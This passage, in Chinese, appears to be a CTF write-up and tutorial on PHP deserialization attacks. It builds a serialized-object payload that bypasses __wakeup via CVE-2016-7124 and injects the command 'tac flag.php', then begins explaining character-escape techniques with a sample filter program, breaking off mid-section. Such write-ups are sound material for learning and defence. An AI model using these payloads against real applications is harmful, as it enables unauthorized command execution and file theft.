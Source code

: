 ```php
$select = new ctf("admin", "ls");
echo urlencode(serialize($select));
```

> 因为protected属性的前缀标志是`%00*%00`如果通过直接查看不能看见，必须编码一下

得到内容：

```php
O%3A3%3A%22ctf%22%3A2%3A%7Bs%3A11%3A%22%00%2A%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A6%3A%22%00%2A%00cmd%22%3Bs%3A2%3A%22ls%22%3B%7D
```

解码一下自己添加`%00`得到

```php
O:3:"ctf":2:{s:11:"%00*%00username";s:5:"admin";s:6:"%00*%00cmd";s:2:"ls";}
```

然后已知在反序列化的时候会先执行`__wakeup()`方法，因此为了不让我们的username属性被改了，我们得绕过他，***当成员属性数目大于实际数目时可绕过wakeup方法(CVE-2016-7124)***

同时虽然过滤掉了一堆东西，但是没有过滤`tac`，可以用他获取文件内容，同时还注意到修改指令之后还需要把`s:?`长度修改了，不然反序列化之后也是无效的

最终构造

```php
?code=O:3:"ctf":3:{s:11:"%00*%00username";s:5:"admin";s:6:"%00*%00cmd";s:12:"tac+flag.php";}
```

#### 字符逃逸

学习了序列化的原理之后，现实中的题目显然不会像这一样简单，这时候就需要进行进一步的学习，其中就包括了反序列化的字符逃逸，以下是会发生的条件

- 源代码涉及到序列化结果的更改部分，且更改结果会影响原串长度
- 序列化参数可控且不过滤`"`、`}`等
- php版本较低，存在字符逃逸的漏洞
- 序列化类中存在两个不同属性，且至少一个可控
- 同时要符合前文说过的条件

反序列化字符逃逸漏洞分为增长漏洞和缩短漏洞，以下为样例

1. 串增长，比如有以下程序

   ```php
   <?php
   function filter($string){
     $a = str_replace('x','zz',$string);
      return $a;
   }
   
   $username = "tr1ple";
   $password = "aaaaax";
   $user = array($username, $password);
   $r = filter(serialize($user));
   var_dump(unserialize($r));
   ```

   已知有一个函数`filter()`可以将序列化中的一个`x`变成两个`z`，此时如果我们想让为这个数组添加一个额外的属性（比如添加属性123456），那么我们就需要构造字符逃逸串
